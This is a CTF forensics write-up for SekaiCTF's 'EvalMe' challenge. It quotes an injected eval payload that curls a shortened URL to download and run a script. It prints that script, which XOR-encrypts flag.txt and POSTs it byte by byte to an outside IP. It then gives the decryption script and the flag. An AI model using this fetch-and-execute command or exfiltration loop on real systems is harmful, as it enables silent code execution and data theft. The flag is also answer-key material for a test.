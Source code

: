 # EvalMe - Forensics - SekaiCTF
## Author: Guesslemonger

### Problem
I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate? It came attached with a `capture.pcapng`.

### Challenge Description
Connecting to the `chals.sekai.team` server required the user to solve 100 simple math problems under a given time. This was solved using the `evalMe.py` script.

Following its solve, there was a curl command given at the end:
```python
b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r#1 + 2
```

### Extract.sh
Downloading the extract.sh to our VM (`curl -sL https://shorturl.at/fgjvU -o extract.sh`), we get the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'

# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }

XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

### XOR Encryption
This script reads the content of `flag.txt`, encrypts it using XOR encryption with a predefined key, and then sends the encrypted data, byte by byte, to a remote server using cURL. The server URL and endpoint seem to be `http://35.196.65.151:30899/`, and the data is likely being sent in a structured JSON format as part of the POST request.

### pcap Analysis
This is where the pcap file comes in. It contains the data sent via that POST command. So, filtering by: `ip.dst ==35.196.65.151 && http.request.method == POST`, we get 51 packets that contain the bytes that were sent as seen below:


[![alt text]([https://github.com/triciadang/CTF/SekaiCTF/evalMe/evalMeScreenshot.jpg?raw=true])](https://github.com/triciadang/CTF/blob/main/SekaiCTF/evalMe/evalMeScreenshot.jpg)

We exported all of the bytes into a txt file using Wireshark.

### Decryption of the Data
We then created a script that reversed the encryption for each byte:

```
#!/bin/bash
KEY='s3k@1_v3ry_w0w'

Asc() {
    printf '%d' "'$1"
}

XORDecrypt() {
    local key="$1" DataIn="$2"
    local bytes=($DataIn)

    for (( i = 0; i < ${#bytes[@]}; i++ )); do
        val3=$(printf '%d' "0x${bytes[i]}")

        # Adjusted key indexing for both uppercase and lowercase characters
        val2=$( Asc "${key:$(( i % ${#key} )):1}" )

        val1=$(( val3 ^ val2 ))

        DataOut+=$(printf '\\x%02x' "$val1")
    done

    echo -ne "$DataOut"
}

EncryptedData=$(<encrypted.txt)
DecryptedData=$(XORDecrypt "$KEY" "$EncryptedData")

echo -ne "$DecryptedData"
```
Running it against the exported bytes, we retrieve the flag: `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`

